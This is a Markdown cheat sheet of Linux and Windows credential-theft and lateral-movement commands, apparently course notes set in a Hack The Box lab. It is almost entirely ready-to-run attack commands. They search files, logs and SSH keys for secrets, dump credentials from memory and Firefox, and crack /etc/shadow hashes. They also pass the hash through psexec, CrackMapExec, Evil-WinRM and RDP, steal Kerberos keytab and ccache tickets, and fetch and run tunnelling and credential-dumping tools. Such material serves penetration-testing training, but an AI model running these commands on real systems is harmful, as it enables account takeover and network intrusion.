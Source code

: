 ## Credential Hunting

### Configuration Files
```bash
## Search for config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

## Searching for credentials in config files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### Databases

```bash
## Search for database files
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes

```bash
## Search for notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts

```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs

```bash
cat /etc/crontab 
ls -la /etc/cron.*/
```

### SSH Keys

```bash
## Search for ssh private keyssm
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

## Search for ssh public keys
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### History 

| **Log File**   | **Description**   |
| --------------|-------------------|
|/var/log/messages|	Generic system activity logs.|
|/var/log/syslog|	Generic system activity logs.|
|/var/log/auth.log|	(Debian) All authentication related logs.|
|/var/log/secure|	(RedHat/CentOS) All authentication related logs.|
|/var/log/boot.log|	Booting information.|
|/var/log/dmesg|	Hardware and drivers related information and logs.|
|/var/log/kern.log|	Kernel related warnings, errors and logs.|
|/var/log/faillog|	Failed login attempts.|
|/var/log/cron|	Information related to cron jobs.|
|/var/log/mail.log|	All mail server related logs.|
|/var/log/httpd|	All Apache related logs.|
|/var/log/mysqld.log|	All MySQL server related logs.|

```bash
## Bash history
tail -n5 /home/*/.bash*

## Logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory & Cache

```bash
## Memory dumping
sudo python3 mimipenguin.py 
sudo python2.7 laZagne.py all

## Firefox stored credentials
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
python3.9 firefox_decrypt.py
```

## Password Files

### Passwd

```bash
## Rare scenario - passwd is editable
root::0:0:root:/root:/bin/bash  # Allow for straight root access

## Un shadowing password file
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Opasswd

```bash
## Location of old password file
sudo cat /etc/security/opasswd
```

## Pass the Hash

### Impacket PsExec

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### CrackMapExec

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

## Execute command option
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### Evil-WinRM

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### RDP 

```powershell
## Enable restricted admin mode to allow pth
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

## Pass the hash using rdp
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

### Limitations

_UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well._

_If the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account._

## Pass the Ticket

Linux machines store Kerberos tickets as ccache files in the /tmp directory. By default, the location of the Kerberos ticket is stored in the environment variable KRB5CCNAME.

Another everyday use of Kerberos in Linux is with keytab files. A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).

### Identifying Linux and AD Integration

```bash
## Use realm tool to check for domain environment
realm list

## Alternatively if realm is not available, look for services sssd or winbind
ps -ef | grep -i "winbind\|sssd"
```

### Finding Kerberos Ticket

```bash
## Find Keytab file
find / -name *keytab* -ls 2>/dev/null

## Alternatively, Keytab can be located in Cronjobs
crontab -l

## Find ccache file
env | grep -i krb5

## Search for ccache file in default directory
ls -la /tmp
```

### Abusing KeyTab

```bash
## List keytab information
klist -k -t 

## Impersonate user with keytab
klist 
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

## Connect to target machine i.e.
smbclient //dc01/carlos -k -c ls

## Abuse via keytab extract
## https://github.com/sosdave/KeyTabExtract
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

### Abusing Ccache

To abuse a ccache file, all we need is read privileges on the file. These files, located in /tmp, can only be read by the user who created them, but if we gain root access, we could use them.

```bash
## Import ccache file to current session
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

### Linux Attack Tools with Kerberos

```bash
## Modify our proxychains configuration file to use socks5 and port 1080
## Download chisel on Attack Host
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

## Set KRB5CCNAME Environment Variable
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133

## Use Impacket with proxychains and Kerberos Auth
proxychains impacket-wmiexec dc01 -k

## Use winrm with Kerberos
sudo apt-get install krb5-user -y
proxychains evil-winrm -i dc01 -r inlanefreight.htb

## Converting ccache file for use in Windows or kirbi file for use in Linux
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

## Alternatively, Linikatz
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
```
